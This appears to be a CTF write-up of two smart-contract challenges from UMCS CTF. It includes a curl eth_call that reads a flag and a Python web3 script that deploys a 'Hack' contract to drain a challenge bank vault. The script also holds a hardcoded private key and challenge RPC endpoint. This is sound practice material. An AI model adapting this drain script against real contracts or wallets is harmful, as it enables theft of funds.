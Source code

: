 ## This is 2 challenges compiles:

1. [ZKChallenge](https://github.com/Kr3yzi/CTF-WRITEUPS/new/main/2025/UMCS%20CTF#challenge-)

2. [Bank Vault](https://github.com/Kr3yzi/CTF-WRITEUPS/new/main/2025/UMCS%20CTF#challenge-bank-vault)


## Challenge: ZKChallenge

We are given [smart contract url](https://sepolia.scrollscan.com/address/0xB980702A8C8D32bF0F9381AcCFA271779132f1b2#events)

## Solution 

Im suppose to solve this question is simply to sniff the transactions/find faucet for sepolia scroll and mimic the transaction and get the flag but here is mine: 
```
curl -s -X POST https://sepolia-rpc.scroll.io -H "Content-Type: application/json" --data "{\"jsonrpc\":\"2.0\",\"id\":1,\"method\":\"eth_call\",\"params\":[{\"to\":\"0x27ab8b382e364E9b7C7176BdcceDab1206C88b38\",\"from\":\"0xB980702A8C8D32bF0F9381AcCFA271779132f1b2\",\"data\":\"0xf9633930\"},\"latest\"]}" | jq -r ".result" | xxd -r -p
```

## Flag: ZKChallenge
![image](https://github.com/user-attachments/assets/beb3f82b-f3aa-4208-832d-f4b2c7211ac5)

```
umcs{ZK_i3_s3cr3tly_3asy}
```

## Challenge: Bank Vault 

I don't have any attachment for this question because it was on-site and i FORGOT to do write-up ASAP. 
But as i remember, the challenge given us some kind of big amount to and we need to drain it. 

here is the script to solve this challenge (vibe): 

```
from web3 import Web3
import json

# --- CONFIGURATION ---
RPC_URL = "http://116.203.176.73:4445/25149230-4181-415f-961f-257e348377f9"
PRIVATE_KEY = "f58ae67c53eab0278bb4ada8050c573c06c0aaed7c3511b9fdccd1af091eda2c"
MY_ADDRESS = "0x5573Ab9ccda55928EF494510bDDE04aC104c2081"
SETUP_CONTRACT_ADDR = "0xd6f78F0e43096aaEc7b4858A3bad737676Ae5ccb"

# Load ABI and bytecode for Hack contract (from Remix or your compiler)
with open("Hack.abi") as f:
    HACK_ABI = json.load(f)
with open("Hack.bin") as f:
    HACK_BYTECODE = f.read().strip()

w3 = Web3(Web3.HTTPProvider(RPC_URL))
acct = w3.eth.account.from_key(PRIVATE_KEY)

# Try to get the real BankVaults contract address from the setup contract
SETUP_ABI = [
    {
        "inputs": [],
        "name": "challengeInstance",
        "outputs": [{"internalType": "address", "name": "", "type": "address"}],
        "stateMutability": "view",
        "type": "function"
    }
]
try:
    setup = w3.eth.contract(address=SETUP_CONTRACT_ADDR, abi=SETUP_ABI)
    BANK_VAULTS_ADDR = setup.functions.challengeInstance().call()
    print(f"Real BankVaults contract address: {BANK_VAULTS_ADDR}")
except Exception as e:
    print("Could not fetch challengeInstance from setup contract, using SETUP_CONTRACT_ADDR as vault address.")
    BANK_VAULTS_ADDR = SETUP_CONTRACT_ADDR

# Check wallet balance
balance = w3.eth.get_balance(MY_ADDRESS)
eth_balance = w3.from_wei(balance, 'ether')
print(f"Wallet balance: {eth_balance} ETH")

# Use a bit less than the full balance to leave room for gas
if eth_balance > 0.2:
    deploy_value = w3.to_wei(0.1, 'ether')
elif eth_balance > 0.05:
    deploy_value = w3.to_wei(0.05, 'ether')
else:
    deploy_value = int(balance * 0.8)  # Use 80% of balance if very low

print(f"Deploying Hack contract with {w3.from_wei(deploy_value, 'ether')} ETH...")

# 1. Deploy the Hack contract
nonce = w3.eth.get_transaction_count(MY_ADDRESS)
tx = {
    'from': MY_ADDRESS,
    'nonce': nonce,
    'gas': 2_000_000,
    'gasPrice': w3.to_wei('10', 'gwei'),
    'value': deploy_value
}
Hack = w3.eth.contract(abi=HACK_ABI, bytecode=HACK_BYTECODE)
construct_txn = Hack.constructor(BANK_VAULTS_ADDR).build_transaction(tx)
signed = w3.eth.account.sign_transaction(construct_txn, PRIVATE_KEY)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
print("Deploying Hack contract...")
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
hack_addr = tx_receipt.contractAddress
print(f"Hack contract deployed at: {hack_addr}")

# 2. Call solve() on the Hack contract
nonce = w3.eth.get_transaction_count(MY_ADDRESS)
hack = w3.eth.contract(address=hack_addr, abi=HACK_ABI)
solve_txn = hack.functions.solve().build_transaction({
    'from': MY_ADDRESS,
    'nonce': nonce,
    'gas': 1_000_000,
    'gasPrice': w3.to_wei('10', 'gwei')
})
signed_solve = w3.eth.account.sign_transaction(solve_txn, PRIVATE_KEY)
tx_hash = w3.eth.send_raw_transaction(signed_solve.raw_transaction)
print("Calling solve()...")
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
print("Exploit complete!")

# 3. Check if solved via the Setup contract
IS_SOLVED_ABI = [
    {
        "inputs": [],
        "name": "isSolved",
        "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
        "stateMutability": "view",
        "type": "function"
    }
]
setup = w3.eth.contract(address=SETUP_CONTRACT_ADDR, abi=IS_SOLVED_ABI)
print("Solved?", setup.functions.isSolved().call())
```

![image](https://github.com/user-attachments/assets/e1fb3cd9-8ad2-4435-abbe-eb95fcbee0c0)

## Flag: Bank Vault

![image](https://github.com/user-attachments/assets/52a235e3-af71-4fdf-a131-15521bfda38c)

```
umcs{1346770b6250d7f36e4ea86a42816b3c)
```



